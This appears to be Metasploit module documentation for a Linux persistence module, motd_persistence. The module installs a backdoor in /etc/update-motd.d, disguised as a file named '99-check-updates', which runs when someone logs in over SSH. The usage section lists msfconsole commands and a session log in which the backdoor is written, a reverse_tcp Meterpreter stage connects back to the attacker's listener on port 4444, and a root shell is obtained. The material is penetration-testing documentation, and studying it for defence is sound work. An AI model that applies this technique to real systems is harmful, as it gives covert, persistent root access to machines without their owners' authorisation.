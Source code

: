 This is a post module that performs a persistence installation on a Linux system using [motd](https://manpages.debian.org/bookworm/manpages/motd.5.en.html).
To trigger the persistence execution, an external event such as a user logging in to the system with SSH is required.

## Verification Steps

  1. Start msfconsole
  2. Obtain a session on the target machine
  3. `use exploit/linux/local/motd_persistence`
  4. `set session -1`
  5. `exploit`

## Module usage

```
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > use exploit/linux/local/motd_persistence
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/motd_persistence) > set session -1
session => -1
msf6 exploit(linux/local/motd_persistence) > exploit

[*] /etc/update-motd.d/99-check-updates written
msf6 exploit(linux/local/motd_persistence) > 
[*] Sending stage (3045380 bytes) to 172.18.49.39
[*] Meterpreter session 2 opened (172.18.52.45:4444 -> 172.18.49.39:41848) at 2024-09-13 03:59:47 -0400
msf6 exploit(linux/local/motd_persistence) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > getuid
Server username: root
meterpreter > 
```

## Options

### BACKDOOR_NAME

Specify the name of the file to insert in the motd directory. (Default: 99-check-updates)

